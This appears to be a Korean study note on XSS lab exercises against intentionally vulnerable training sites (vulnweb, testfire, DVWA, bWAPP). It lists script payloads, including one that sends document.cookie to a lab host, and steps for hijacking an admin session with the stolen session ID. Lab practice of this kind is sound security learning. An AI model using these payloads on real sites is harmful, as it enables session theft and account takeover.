 ```yaml
---
title: "웹 보안 실습 2"
date: 2024-11-17
categories: [정보보안, 웹 보안]
tags: [IT, Security, Web]
---
```


## **XSS (Cross-Site Scripting)**

### **저장형 XSS**

#### **1. Acunetix 사이트**

- **URL**: `http://testphp.vulnweb.com/listproducts.php?cat=1`

**실습 스크립트**:
- `<script>alert("test")</script>`  
  브라우저에서 "test"라는 경고창 표시
- `<script>alert(document.cookie);</script>`  
  사용자의 쿠키 값을 경고창으로 표시


#### **2. AltroMutual 사이트**

- **URL**: [demo.testfire.net](https://demo.testfire.net)

**실습 스크립트**:
- `<script>alert("test")</script>`  
  브라우저에서 "test"라는 경고창 표시
- `<script>alert(document.cookie);</script>`  
  사용자의 쿠키 값을 경고창으로 표시
- `<script>location.href="http://www.naver.com";</script>`  
  사용자를 네이버 웹사이트로 리다이렉션

#### **3. DVWA 사이트 / Ubuntu Apache2**

1. 우분투 아파치 웹 서버 로그 남기기
![](assets/img/정보보안/실습/W_2-1.jpg)

2. DVWA에서 실행할 스크립트 작성
`<script>document.location='http://10.10.10.11/cookie?'+document.cookie</script?>`

3. DVWA XSS에서 실행 (admin/password 계정)

4. 우분투에서 로그 확인 (SSID)

5. 우분투에서 DVWA 접속 (pablo/letmein 계정)

6. f12 저장소의 SSID 값을 로그에서 확인한 값으로 변경

7. 새로고침 하면 admin계정으로 접속 됨

### **반사형 XSS**

#### **BWAPP 사이트**

![](assets/img/정보보안/실습/W_2-2.jpg)
  - 세션값 탈취

1:07:07